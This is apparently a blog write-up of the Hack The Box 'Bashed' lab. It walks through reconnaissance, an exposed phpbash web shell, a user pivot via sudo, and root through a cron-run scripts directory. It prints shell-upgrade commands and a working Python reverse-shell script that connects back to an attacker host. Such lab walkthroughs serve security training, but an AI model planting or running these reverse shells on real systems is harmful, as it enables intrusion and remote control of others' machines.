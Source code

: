 ```yaml
---
layout: single
title: Hack The Box - Bashed
permalink: /htb-bashed/
excerpt: "Bashed is an easy machine from Hack the Box. This is a really old machine. This machine focuses on file misconfiguration and the dangerous let the web shell out in the open. Like I say, this is an old machine, we have a bunch possibility to learn such as kernel exploit, etc."
classes: wide
header:
  teaser: "/assets/images/htb/bashed/Bashed.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
tags:
  - python
  - gobuster
  - crontab
  - file-misconfiguration
---
```


![1](/assets/images/htb/bashed/Bashed.png)

### <font color="#9bffc8">Nmap</font>

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### <font color="#9bffc8">Http</font>

Let's take a look at the website. 

![1](/assets/images/htb/bashed/website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](/assets/images/htb/bashed/upload_dir.png)

### <font color="#9bffc8">Gobuster</font>

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](/assets/images/htb/bashed/gobuster.png)

### <font color="#9bffc8">/dev</font>

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](/assets/images/htb/bashed/dev.png)

![1](/assets/images/htb/bashed/web_shell.png)

### <font color="#9bffc8">Reverse Shell</font>

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](/assets/images/htb/bashed/b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](/assets/images/htb/bashed/bs64_webshell.png)

![1](/assets/images/htb/bashed/got_the_shell.png)

### <font color="#9bffc8">Upgrade shell using python</font>

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### <font color="#9bffc8">User scriptmanager</font>

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](/assets/images/htb/bashed/scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](/assets/images/htb/bashed/change_2_scriptmanager.png)

### <font color="#9bffc8">/scripts</font>

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](/assets/images/htb/bashed/script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](/assets/images/htb/bashed/contents.png)

### <font color="#9bffc8">Root Shell</font>

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](/assets/images/htb/bashed/petai_root.png)
